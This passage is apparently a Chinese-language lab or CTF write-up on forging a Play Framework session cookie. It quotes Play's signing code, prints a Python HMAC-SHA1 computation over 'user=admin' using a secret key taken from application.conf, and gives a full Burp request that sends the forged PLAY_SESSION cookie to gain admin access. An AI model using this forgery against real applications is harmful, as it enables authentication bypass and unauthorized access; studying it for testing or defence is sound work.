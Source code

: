 `framework/src/play/src/main/scala/play/api/mvc/Http.scala`中：

```
    def encode(data: Map[String, String]): String = {
      val encoded = data.map {
        case (k, v) => URLEncoder.encode(k, "UTF-8") + "=" + URLEncoder.encode(v, "UTF-8")
      }.mkString("&")
      if (isSigned)
        Crypto.sign(encoded) + "-" + encoded
      else
        encoded
    }
```

可知，session内容的格式为: `signature-name1=value1&name2=value2`, 其实name1,value1等都经过url编码处理, 其中`encoded=name1=value1&name2=value2`, `signature=Crypto.sign(encoded)`。

加密函数如下：

```
def sign(message: String, key: Array[Byte]): String = {
   val mac = Mac.getInstance("HmacSHA1")
   mac.init(new SecretKeySpec(key, "HmacSHA1"))
   Codecs.toHexString(mac.doFinal(message.getBytes("utf-8")))
 }
```

其中`key= "[KEY FOUND IN conf/application.conf]"`, 那么利用python伪造session内容，过程如下:

```python
In [1]: import hashlib
In [6]: import hmac
In [9]: key =  "X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG"
In [10]: data = "user=admin"
In [11]: h = hmac.new(key, data, hashlib.sha1)

In [12]: h.hexdigest()
Out[12]: 'a5b8363ce748cfbb5d654edc3676d440173b33de'
```

这里必须使用`hmac`库，而不能仅仅使用`hashlib`库来计算sha1, 因为hmac库使用key来生成salt, 然后用`hashlib.sha1`来计算hash值，而不是直接对`key+data`生成hash值。

然后进行cookie伪造，cookie名字就是`PLAY_SESSION`, burp请求如下:

```
GET / HTTP/1.1
Host: 10.211.55.14
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0 FirePHP/0.7.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
x-insight: activate
Cookie: PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin"
Connection: close
Upgrade-Insecure-Requests: 1
```

